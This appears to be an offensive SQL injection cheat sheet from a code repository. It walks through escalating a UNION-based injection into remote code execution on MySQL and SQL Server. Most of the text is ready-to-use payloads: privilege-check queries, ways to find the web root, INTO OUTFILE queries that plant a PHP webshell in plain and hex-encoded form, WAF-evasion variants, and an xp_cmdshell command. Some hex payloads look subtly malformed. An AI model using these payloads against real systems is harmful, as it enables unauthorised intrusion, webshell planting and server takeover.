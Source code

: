 # SQL Privilege Escalation

## Identifying the write user's permission
If the database user has write permission, it allows an attacker to upload arbitrary files in the server.  

Let's suppose that the website has 12 columns and the given UNION Based SQL query shows that the vulnerable column is 4:  
```http://domain.com/index.php?id=1' Union Select 1,2,3,4,5,6,7,8,9,10,11,12-- -```

Payload used for Privilege Check via I_S.PRIVILEGES:  
```(SELECT+GROUP_CONCAT(GRANTEE,0x202d3e20,IS_GRANTABLE,0x3c62723e)+FROM+INFORMATION_SCHEMA.USER_PRIVILEGES)```

Payload used for Privilege Check via MySQL System Table:  
```(SELECT+GROUP_CONCAT(user,0x202d3e20,file_priv,0x3c62723e)+FROM+mysql.user)```

Apply one of the queries into the 4th column:  
```http://domain.com/index.php?id=1' Union Select 1,2,3,(SELECT+GROUP_CONCAT(GRANTEE,0x202d3e20,IS_GRANTABLE,0x3c62723e)+FROM+INFORMATION_SCHEMA.USER_PRIVILEGES),5,6,7,8,9,10,11,12-- -```

Look into the results, if 'root'@'localhost' is YES, then we can perform Privilage Escalation (perform RCE). Else, if NO is shown we can't perform RCE since we don't have permission to write over the server.

## Escalating privileges

Since we have permission to write, we can create our own PHP Webshell, but to do this we need to know the absolute path of INDEX.

### Finding absolute path

1. The most common way to find a path, is by searching the temporary path that SQL has, to do that we simply use the following query:
```sql
@@slave_load_tmpdir
```

Look at the output, you should look after a directory, something like this:
**/var/mysqltmp**  

This means that we can upload files to **/mysqltmp**

2. Another way (when website likes to Error) is to perform a 'Fatal Error' or a Syntax Error and the absolute path will be shown bolded like the image below.
Note: different websites displayes different output and format.

![fatal_error_syntax](https://i.imgur.com/rAPKrh1.png)

The bold part is the absolute path: **E:\xampp\htdocs** which is converted to **E:/xampp/htdocs**

### Uploading webshell

Let's use the following PHP code to inject it into an arbitrary file:
```php
<?php system($_GET[‘cmd’]); ?>
```

Below is the PHP script converted to 0xHEX format:  
```0xa3c3f7068702073797374656d28245f4745545b27636d64275d293b203f3e```

The following queries (same goal, different approach) is to inject this php code into an arbitrary file which we will name it **webshell.php** (for this part you MUST assume/know the absolute path of the file you want to upload, otherwise it won't work. Hint: use [@@slave_load_tmpdir](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/edit/main/Privilege%20Escalation/README.md#finding-absolute-path) to find the temporary directory located in the server).  

```sql
http://domain.com/index.php?id=1' Union Select 1,2,3,0x201c3c3f7068702073797374656d28245f4745545b2018636d6420195d293b203f3e201d,5,6,7,8,9,10,11,12 into outfile 'E:/xampp/htdocs/webshell.php'-- -
```  
```sql
http://domain.com/index.php?id=1' Union Select 1,2,3,"<?php system($_GET['cmd']); ?>",5,6,7,8,9,10,11,12 into outfile "C:\\xampp\\htdocs\\webshell.php'-- -
```  
```sql
http://domain.com/index.php?id=1' Union Select '' into outfile '/var/www/html/webshell.php' FIELDS TERMINATED BY "<?php system($_GET['cmd']); ?>"
```  

If WAF comes into the play and makes it unable for you to upload webshell, try using the following concat() functions to load the PHP script:
```sql
unhex(hex(/*!50000group_concat*/(/*!500000x201c3c3f7068702073797374656d28245f4745545b2018636d6420195d293b203f3e201d*/)))  
%0AcOnCat(0x201c3c3f7068702073797374656d28245f4745545b2018636d6420195d293b203f3e201d)  
/**//*!12345cOnCat*/(0x201c3c3f7068702073797374656d28245f4745545b2018636d6420195d293b203f3e201d)  
unhex(hex(/*!12345concat*/(0x201c3c3f7068702073797374656d28245f4745545b2018636d6420195d293b203f3e201d)))  
```

Since the webshell is upload, you can go execute OS Commands:

```http://domain.com/webshell.php?cmd=whoami```

## OS Command Execution

Via **xp_cmdshell**:  
```something'); exec xp_cmdshell "ping 10.10.x.x"--``` 
